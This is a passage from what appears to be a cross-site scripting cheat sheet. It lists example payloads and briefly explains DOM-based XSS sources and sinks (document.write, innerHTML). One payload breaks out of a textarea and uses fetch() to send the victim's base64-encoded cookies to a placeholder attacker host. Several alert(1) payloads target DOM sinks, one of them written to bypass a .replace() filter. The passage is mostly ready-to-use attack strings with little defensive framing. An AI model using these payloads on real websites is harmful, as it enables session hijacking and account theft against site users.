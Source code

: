 Examples:

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

`<a href="javascript:alert(1)">`












## DOM-based XSS
When JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`.

The most common source for DOM XSS is the URL, which is typically accessed with the `window.location` object.

The "sinks" manipulate the DOM, and then the DOM causes the JavaScript to execute.

- document.write
`"><svg onload=alert(1)>`
`fooBar" onload="alert(1)`

- innerHTML sink using source location.search
`<img src=1 onerror=alert(1)>`
`<><img src=1 onerror=alert(1)>` Example: to bypass `.replace()` method
`<img src='0' onerror=alert(1)>`





































## PHP
